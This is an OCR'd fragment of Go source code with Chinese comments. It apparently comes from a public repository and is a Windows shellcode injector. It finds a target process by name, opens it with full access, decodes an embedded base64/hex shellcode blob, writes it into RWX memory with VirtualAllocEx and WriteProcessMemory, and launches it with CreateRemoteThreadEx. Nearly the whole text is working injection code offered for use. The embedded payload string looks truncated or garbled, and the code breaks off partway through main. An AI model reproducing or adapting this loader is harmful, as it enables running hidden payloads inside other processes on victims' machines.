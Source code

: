 ```
  for {
    var proc PROCESSENTRY32
    proc.dwSize = ulong(unsafe.Sizeof(proc))
    if rt, _, _ := Process32Next.Call(pHandle, uintptr(unsafe.Pointer(&proc))); int(rt) == 1 {
      ProcessName := string(proc.szExeFile[0:])
      //th32ModuleID := strconv.Itoa(int(proc.th32ModuleID))
      ProcessID := int(proc.th32ProcessID)
      tasklist[ProcessName] = ProcessID
    } else {
      break
    }
  }
  //从map中取出key为inProcessName的value
  for k, v := range tasklist {
    if strings.Contains(k, inProcessName) == true {
      PID = v
    }
  }
  _, _, _ = CloseHandle.Call(pHandle)

  return PID
}

//对base64编码的shellcode进行处理
func GetShellCode(b64body string) []byte {
  shellCodeB64, err := base64.StdEncoding.DecodeString(b64body)
  if err != nil {
    fmt.Printf("[!]Error b64decoding string : %s ", err.Error())
    os.Exit(1)
  }
  //转换处理
  shellcodeHex, _ := hex.DecodeString(strings.ReplaceAll(strings.ReplaceAll(string(shellCodeB64), "\n", ""), "\\x", ""))
  return shellcodeHex
}

//根据pid获取句柄
func GetOpenProcess(dwProcessId int) uintptr {
  pHandle, _, _ := OpenProcess.Call(uintptr(PROCESS_ALL_ACCESS), uintptr(0), uintptr(dwProcessId))
  return pHandle
}

//开辟内存空间执行shellcode
func injectProcessAndEx(pHandle uintptr, shellcode []byte) {
  Protect := PAGE_EXECUTE_READWRITE
  addr, _, err := VirtualAllocEx.Call(uintptr(pHandle), 0, uintptr(len(shellcode)), MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE)
  if err != nil && err.Error() != "The operation completed successfully." {
    log.Fatal(fmt.Sprintf("[!]Error calling VirtualAlloc:\r\n%s", err.Error()))
  }

  WriteProcessMemory.Call(uintptr(pHandle), addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
  VirtualProtectEx.Call(uintptr(pHandle), addr, uintptr(len(shellcode)), PAGE_EXECUTE_READWRITE, uintptr(unsafe.Pointer(&Protect)))
  CreateRemoteThreadEx.Call(uintptr(pHandle), 0, 0, addr, 0, 0, 0)
}

func main() {
  b64body := "XHhmY1x4NDFx4ZjBceGU4XHhjOFx4MDBceDAwXHgwMFx4NDFceDUxXHg0MVx4Nh"
  dwProcessId := GetPID()
  pHandle := GetOpenProcess(dwProcessId)
  shellCodeHex := GetShellCode(b64body)
```